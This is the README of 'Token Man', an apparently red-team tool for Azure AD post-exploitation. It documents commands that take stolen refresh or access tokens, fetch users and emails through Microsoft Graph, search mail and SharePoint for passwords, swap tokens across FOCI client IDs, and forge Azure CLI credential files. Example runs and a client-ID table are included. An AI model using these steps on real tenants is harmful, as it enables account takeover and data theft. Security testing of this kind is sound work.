

<p align="center">
  
</p>

<p>
  Access and Refresh Token Suite.
  <br/>
  Token Man is a tool for supporting post-exploitation activities using AAD access and/or refresh tokens.
</p>


# Table of Contents

- [Usage](#usage)
- [Commands](#commands)
  - [Fetch](#fetch)
  - [Search](#search)
  - [Swap](#swap)
    - [FOCI Application Client ID Map](#foci-application-client-id-map)
  - [AZ](#az)

## Usage

```
usage: tokenman.py [-h] {fetch,search,swap,az} ...

Token Man -- v0.1.0

positional arguments:
  {fetch,search,swap,az}
                        Command
    fetch               Retrieve data via Graph API
    search              Search content via Graph API
    swap                Exchange a refresh token
    az                  Generate Azure CLI authentication files

options:
  -h, --help           show this help message and exit
```

## Commands

### Fetch

Fetch specified data via the Microsoft Graph API.

```
usage: tokenman.py fetch [-h] [--debug] [-r REFRESH_TOKEN | -a ACCESS_TOKEN] [--proxy PROXY]
                         [-m MODULE]

options:
  -h, --help            show this help message and exit

  --debug               enable debugging

  -r REFRESH_TOKEN, --refresh-token REFRESH_TOKEN
                        AAD refresh token

  -a ACCESS_TOKEN, --access-token ACCESS_TOKEN
                        AAD access token

  --proxy PROXY
                        HTTP proxy url (e.g. http://127.0.0.1:8080)

  -m MODULE, --module MODULE
                        fetch module(s) to run (comma delimited)
                        (all | applications,drives,emails,groups,organizations,serviceprincipals,users)
                        [default: all]
```

```
> python3 tokenman.py fetch -r "0.AW8AD..." -m users

[2022-10-13 18:59:26,314] [info] Acquiring new token for: 'Microsoft Office'
[2022-10-13 18:59:30,546] [info] Fetching users
[2022-10-13 18:59:32,455] [info]        Users: 78
[2022-10-13 18:59:32,455] [info]        Output: data/fetch.users.20221013225932.json
```

### Search

Search for keywords in the contents of a specified entity via the Microsoft Graph API.

```
usage: tokenman.py search [-h] [--debug] [-r REFRESH_TOKEN | -a ACCESS_TOKEN] [--proxy PROXY]
                          [-m MODULE] [--keyword KEYWORD]

options:
  -h, --help            show this help message and exit

  --debug               enable debugging

  -r REFRESH_TOKEN, --refresh-token REFRESH_TOKEN
                        AAD refresh token

  -a ACCESS_TOKEN, --access-token ACCESS_TOKEN
                        AAD access token

  --proxy PROXY
                        HTTP proxy url (e.g. http://127.0.0.1:8080)

  -m MODULE, --module MODULE
                        search module(s) to run (comma delimited)
                        (all | messages,onedrive,sharepoint)
                        [default: all]

  --keyword KEYWORD
                        keyword(s) to search for (comma delimited)
                        [default: password,username]
```

```
> python3 tokenman.py search -r "0.AW8AD..." -m messages --keyword password

[2022-10-13 19:06:56,652] [info] Acquiring new token for: 'Microsoft Office'
[2022-10-13 19:07:00,135] [info] Searching 'messages' for: ['password']
[2022-10-13 19:07:03,618] [info]        Search Results: 1
[2022-10-13 19:07:03,618] [info]        Output: data/search.messages.20221013230703.json
```

### Swap

Exchange the given refresh token for a different client id via family of client IDs (FOCI).

```
usage: tokenman.py swap [-h] [--debug] [-r REFRESH_TOKEN | -a ACCESS_TOKEN] [--proxy PROXY]
                        [--list] [-c CLIENT_ID] [--resource RESOURCE] [--scope SCOPE]

options:
  -h, --help            show this help message and exit

  --debug               enable debugging

  -r REFRESH_TOKEN, --refresh-token REFRESH_TOKEN
                        AAD refresh token

  -a ACCESS_TOKEN, --access-token ACCESS_TOKEN
                        AAD access token

  --proxy PROXY
                        HTTP proxy url (e.g. http://127.0.0.1:8080)

  --list                list foci client id and name mapping

  -c CLIENT_ID, --client-id CLIENT_ID
                        application client id or name to exchange token for

  --resource RESOURCE
                        token resource (audience)

  --scope SCOPE
                        token scope (comma delimited) [default: .default]
```

```
> python3 tokenman.py swap -r "0.AW8AD..." -c "Microsoft Azure CLI" --resource https://management.azure.com

[2022-10-13 16:36:46,653] [info] Acquiring new token for: '04b07795-8ddb-461a-bbee-02f9e1bf7b46'
[2022-10-13 16:36:55,557] [info]        Output: data/token.04b07795-8ddb-461a-bbee-02f9e1bf7b46.20221013203655.json
[2022-10-13 16:36:55,557] [info]        Access Token:

eyJ0e...
```

#### FOCI Application Client ID Map

> Via the `--list` flag, most of these values come from the research: [Family of Client IDs](https://github.com/secureworks/family-of-client-ids-research)

```json
{
    "Accounts Control UI":                      "a40d7d7d-59aa-447e-a655-679a4107e548",
    "Microsoft Authenticator App":              "4813382a-8fa7-425e-ab75-3b753aab3abb",
    "Microsoft Azure CLI":                      "04b07795-8ddb-461a-bbee-02f9e1bf7b46",
    "Microsoft Azure PowerShell":               "1950a258-227b-4e31-a9cf-717495945fc2",
    "Microsoft Bing Search for Microsoft Edge": "2d7f3606-b07d-41d1-b9d2-0d0c9296a6e8",
    "Microsoft Bing Search":                    "cf36b471-5b44-428c-9ce7-313bf84528de",
    "Microsoft Edge":                           "f44b1140-bc5e-48c6-8dc0-5cf5a53c0e34",
    "Microsoft Edge (1)":                       "e9c51622-460d-4d3d-952d-966a5b1da34c",
    "Microsoft Edge AAD BrokerPlugin":          "ecd6b820-32c2-49b6-98a6-444530e5a77a",
    "Microsoft Flow":                           "57fcbcfa-7cee-4eb1-8b25-12d2030b4ee0",
    "Microsoft Intune Company Portal":          "9ba1a5c7-f17a-4de9-a1f1-6178c8d51223",
    "Microsoft Office":                         "d3590ed6-52b3-4102-aeff-aad2292ab01c",
    "Microsoft Planner":                        "66375f6b-983f-4c2c-9701-d680650f588f",
    "Microsoft Power BI":                       "c0d2a505-13b8-4ae0-aa9e-cddd5eab0b12",
    "Microsoft Stream Mobile Native":           "844cca35-0656-46ce-b636-13f48b0eecbd",
    "Microsoft Teams - Device Admin Agent":     "87749df4-7ccf-48f8-aa87-704bad0e0e16",
    "Microsoft Teams":                          "1fec8e78-bce4-4aaf-ab1b-5451cc387264",
    "Microsoft To-Do client":                   "22098786-6e16-43cc-a27d-191a01a1e3b5",
    "Microsoft Tunnel":                         "eb539595-3fe1-474e-9c1d-feb3625d1be5",
    "Microsoft Whiteboard Client":              "57336123-6e14-4acc-8dcf-287b6088aa28",
    "Office 365 Management":                    "00b41c95-dab0-4487-9791-b9d2c32c80f2",
    "Office UWP PWA":                           "0ec893e0-5785-4de6-99da-4ed124e5296c",
    "OneDrive iOS App":                         "af124e86-4e96-495a-b70a-90f90ab96707",
    "OneDrive SyncEngine":                      "ab9b8c07-8f02-4f72-87fa-80105867a763",
    "OneDrive":                                 "b26aadf8-566f-4478-926f-589f601d9c74",
    "Outlook Mobile":                           "27922004-5251-4030-b22d-91ecd9a37ea4",
    "PowerApps":                                "4e291c71-d680-4d0e-9640-0a3358e31177",
    "SharePoint Android":                       "f05ff7c9-f75a-4acd-a3b5-f4b6a870245d",
    "SharePoint":                               "d326c1ce-6cc6-4de2-bebc-4591e5e13ef0",
    "Visual Studio":                            "872cd9fa-d31f-45e0-9eab-6e460a02d1f1",
    "Windows Search":                           "26a7ee05-5602-4d76-a7ba-eae8b7b67941",
    "Yammer iPhone":                            "a569458c-7f2b-45cb-bab9-b7dee514d112"
}
```

### AZ

Generate the required authentication files for Azure CLI using only a refresh token.

```
usage: tokenman.py az [-h] [--debug] [-r REFRESH_TOKEN | -a ACCESS_TOKEN] [--proxy PROXY]
                      [-c CLIENT_ID]

options:
  -h, --help            show this help message and exit

  --debug               enable debugging

  -r REFRESH_TOKEN, --refresh-token REFRESH_TOKEN
                        AAD refresh token

  -a ACCESS_TOKEN, --access-token ACCESS_TOKEN
                        AAD access token

  --proxy PROXY
                        HTTP proxy url (e.g. http://127.0.0.1:8080)

  -c CLIENT_ID, --client-id CLIENT_ID
                        application client id or name to exchange token for
                        [default: Azure CLI]
```

```
> python3 tokenman.py az -r "0.AW8AD..."

[2022-10-13 14:00:03,072] [info] Generating MSAL Token Cache
[2022-10-13 14:00:05,287] [info]     Writing MSAL Token Cache to disk
[2022-10-13 14:00:05,288] [info] Generating Azure Profile
[2022-10-13 14:00:06,578] [info]     Writing Azure Profile to disk
[2022-10-13 14:00:06,578] [info] Successfully generated Azure CLI authentication files
```